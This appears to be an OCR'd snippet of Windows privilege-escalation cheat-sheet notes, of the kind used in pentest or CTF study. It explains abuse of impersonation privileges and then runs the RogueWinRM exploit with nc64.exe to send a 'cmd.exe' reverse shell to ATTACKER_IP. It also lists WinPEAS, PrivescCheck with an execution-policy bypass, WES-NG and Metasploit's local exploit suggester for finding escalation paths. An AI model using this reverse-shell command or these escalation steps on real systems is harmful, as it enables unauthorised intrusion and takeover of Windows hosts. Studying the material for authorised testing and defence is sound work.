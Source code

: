 ```
# These privileges allow a process to impersonate other users and act on their behalf. Impersonation usually consists of being able to spawn a process or thread under the security context of another user.

  

# To elevate privileges using such accounts, an attacker needs the following: 

# 1. To spawn a process so that users can connect and authenticate to it for impersonation to occur. 

# 2. Find a way to force privileged users to connect and authenticate to the spawned malicious process.

  

# Eg. use RogueWinRM exploit to accomplish both conditions.

# Run the exploit

RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4442"

  

Enumerate escalation options:

  

# WinPEAS: [https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

winpeas.exe > outputfile.txt

  

  

# PrivescCheck.ps1: [https://github.com/itm4n/PrivescCheck](https://github.com/itm4n/PrivescCheck)

PS C:\> Set-ExecutionPolicy Bypass -Scope process -Force

PS C:\> . .\PrivescCheck.ps1

PS C:\> Invoke-PrivescCheck

  

  

# WES-NG: Windows Exploit Suggester - Next Generation: [https://github.com/bitsadmin/wesng](https://github.com/bitsadmin/wesng)

wes.py --update

systeminfo > systeminfo.txt

wes.py systeminfo.txt

  

# Metasploit Meterpreter

multi/recon/local_exploit_suggester
```
